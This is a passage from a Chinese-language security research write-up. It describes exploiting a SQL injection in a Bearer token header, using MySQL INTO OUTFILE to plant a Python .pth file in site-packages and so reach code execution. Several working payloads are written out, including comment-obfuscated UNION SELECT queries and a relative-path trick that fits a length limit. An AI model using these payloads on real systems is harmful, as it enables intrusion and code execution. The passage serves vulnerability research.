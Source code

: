   
不幸的是，这超出了最大输入限制。  
  
沮丧之余，我们突然想到一个主意：与其一次性发射有效载荷，不如把它分解成多个部分？这样可行吗？  
  
当然，MySQL 有一个众所周知的限制INTO OUTFILE——它只允许写入新文件。不支持追加，也不支持覆盖。每个文件路径只能写入一次。  
  
但随后出现了转折：当然，我们仅限于INTO OUTFILE每个目标文件调用一次 - 但我们事先构建内容的方式不受限制。  
  
那么，如果我们将有效载荷逐块存储到另一列中...然后要求 MySQL 将该列的值转储到文件中，会怎么样？  
  
浏览的架构fabric_user.user_table，有一列立即脱颖而出：token完美。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXrI9V5hgNThbnq4EFLW8l2mPic3vaiacoYfrxR5uHpialVtl47SQxvyZmIw/640?wx_fmt=png&from=appmsg "")  
  
类似这样的事会起作用吗？  
  
```
Bearer '/**/UNION/**/SELECT/**/token/**/from/**/fabric_user.user_table/**/into/**/outfile/**/'/var/log/lib/python3.10/site-packages/b.pth
```  
  
  
但是再说一遍——上面的查询？137 个字节长。  
  
看起来我们完蛋了，对吧？  
  
当时我们有点沮丧。不过，我们也不是没有主意了。  
  
如果我们使用通配符会怎么样？我们不提供完整路径，而是尝试了如下方法：  
  
```
/var/log/lib/python3.10/site-*/
```  
  
  
不幸的是，MySQL 又报了个错误 —— 它不支持通配符INTO OUTFILE。真可惜。  
  
好的，新想法：如果我们使用相对路径而不是绝对路径会怎样？  
  
好消息——成功了。  
  
通过在查询中使用相对路径INTO OUTFILE，MySQL 会根据进程的工作目录来解析它——这与 Python 的 非常接近site-packages。我们使用了：  
  
```
../../lib/python3.10/site-packages/x.pth
```  
  
  
最终的有效载荷是什么？  
  
```
'/**/UNION/**/SELECT/**/token/**/from/**/fabric_user.user_table/**/into/**/outfile/**/'../../lib/python3.10/site-packages/x.pth'
```  
  
  
  
总长度：127 字节。还剩一个字节。我们真幸运。  
  
检测伪影生成器  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXribIIMGV9mygPXibGhrntU6Om1rwJN5pMFjGFpEnZqgXWFocAIW7ficdPw/640?wx_fmt=png&from=appmsg "")  
  